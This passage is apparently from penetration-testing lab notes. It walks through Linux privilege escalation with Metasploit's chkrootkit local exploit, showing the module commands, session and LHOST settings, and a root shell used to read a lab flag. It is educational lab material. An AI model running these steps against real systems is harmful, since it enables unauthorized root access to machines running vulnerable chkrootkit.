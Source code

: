 - Background both the shell and the meterpreter session with `CTRL+Z`

### Privilege Escalation

- The technique will depend on the version of the target Linux Kernel and the distribution version.
  - It is necessary to manually enumerate a privesc vulnerable program, `Chkrootkit v.0.49` in this case 

```bash
search chkrootkit
use exploit/unix/local/chkrootkit
info
# Description:
#   Chkrootkit before 0.50 will run any executable file named 
#   /tmp/update as root, allowing a trivial privilege escalation. 
#   WfsDelay is set to 24h, since this is how often a chkrootkit scan is 
#   scheduled by default.
set CHKROOTKIT /bin/chkrootkit
set SESSION 2
set LHOST 192.15.244.2
sessions # check the used ports
run
```

![exploit/unix/local/chkrootkit](.gitbook/assets/image-20230422134736591.png)

```bash
/bin/bash -i
ls
cat flag
```
